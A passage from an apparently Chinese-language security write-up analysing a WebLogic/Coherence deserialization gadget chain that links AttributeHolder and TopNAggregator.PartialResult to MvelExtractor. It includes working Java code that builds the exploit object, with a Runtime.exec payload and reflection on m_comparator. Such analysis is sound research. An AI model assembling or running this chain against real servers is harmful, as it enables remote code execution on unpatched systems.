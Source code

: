 执行命令代码如下

```
MvelExtractor extractor = new MvelExtractor("java.lang.Runtime.getRuntime().exec(\"calc\");");
```

同时在MvelExtractor类的父类AbstractExtractor的compare方法会调用子类的extract方法，给利用链增加了一个接口。

**<a class="reference-link" name="2.%20%E8%B0%83%E7%94%A8%E9%93%BE"></a>2. 调用链**

了解了之前介绍的知识点，我们主要把AttributeHolder类作为我们反序列化的入口，首先看看它的反序列化函数里都实现了哪些功能。

[![](https://p4.ssl.qhimg.com/t01eabfc63166d5e0c6.png)](https://p4.ssl.qhimg.com/t01eabfc63166d5e0c6.png)

可以看出readExternal再次利用Weblogic自己的反序列化逻辑实现了类的解析，因为这次readObject参数为DataInput类型，我们就可以再次扩大可反序列化的范围，准备执行二次反序列化操作。这里就是入口的情况，至于怎么和MvelExtractor的compare结合在一起，我们还要精心构造。

[![](https://p5.ssl.qhimg.com/t0128489c73d071d6c3.png)](https://p5.ssl.qhimg.com/t0128489c73d071d6c3.png)

目前的状态是两个独立的类，需要一个链把他们连在一起，上图中黄色部分为调用链。在寻找实现了readExternal的类中发现了TopNAggregator.PartialResult，其实现的方法如下

[![](https://p5.ssl.qhimg.com/t01829b20ffc61e6cfe.png)](https://p5.ssl.qhimg.com/t01829b20ffc61e6cfe.png)

看到comparator感觉拥有了希望，毕竟在MvelExtractor类中我们可以使用compare方法进行命令执行。我们深入研究下TopNAggregator.PartialResult中的方法。instantiateInternalMap方法将传入的comparator封装一层成为新的comparator之后封装进TreeMap

[![](https://p1.ssl.qhimg.com/t01fba69f5d3aff544b.png)](https://p1.ssl.qhimg.com/t01fba69f5d3aff544b.png)

再之后调用add方法将之前的元素添加进TreeMap中，在跟进分析add方法的时候发现了一线生机。具体调用图如下

[![](https://p4.ssl.qhimg.com/t017ccd0abb96fa8f9b.png)](https://p4.ssl.qhimg.com/t017ccd0abb96fa8f9b.png)

简言之在TopNAggregator.PartialResult在反序列化的时候会调用TreeMap的put方法添加元素，在执行put方法的时候会触发一次comparator的compare方法，如果这个comparator就是我们之前分析的MvelExtractor，那么就构成了一个完整的调用链。

[![](https://p0.ssl.qhimg.com/t01e76b87b39cd259d9.png)](https://p0.ssl.qhimg.com/t01e76b87b39cd259d9.png)

从上图中的黄色线条部分可以清楚的看出整个反序列化链是怎么调用执行的，关于这条链是怎么构造的我们需要关注的就是类之间的组合调用关系，下面就讲讲如何进行层层封装的。

**<a class="reference-link" name="3.%20%E5%B0%81%E8%A3%85%E9%93%BE"></a>3. 封装链**

封装就要倒着来，先从命令执行部分开始。MvelExtractor执行命令需要传入cmd作为构造参数，提供对外的调用接口compare函数。从调用链来看，我们需要控制SortedBag.wrapperComparator的f_comparator属性为MvelExtractor对象，这里其实在TopNAggrator.PartialResult类中的instantiateInternalMap方法已经集成了该操作。所以只需将MvelExtractor对象赋值给PartialResult的m_comparator变量即可，这样在PartialResult反序列化的时候就会自动执行剩下的一系列操作，所以**第一步**创造MvelExtractor对象

```
MvelExtractor extractor = new MvelExtractor("java.lang.Runtime.getRuntime().exec(\"calc\");");
```

**第二步**构造TopNAggrator.PartialResult对象

```
MvelExtractor extractor2 = new MvelExtractor("");
SortedBag sortedBag = new TopNAggregator.PartialResult(extractor2, 2);
sortedBag.add(1);//添加后才会执行readExternal的add方法
Field m_comparator = sortedBag.getClass().getSuperclass().getDeclaredField("m_comparator");
m_comparator.setAccessible(true);
m_comparator.set(sortedBag, extractor);//修改sortedBag对象中的m_comparator属性为extractor，这样就会生成带有这个comparator的TreeMap
```
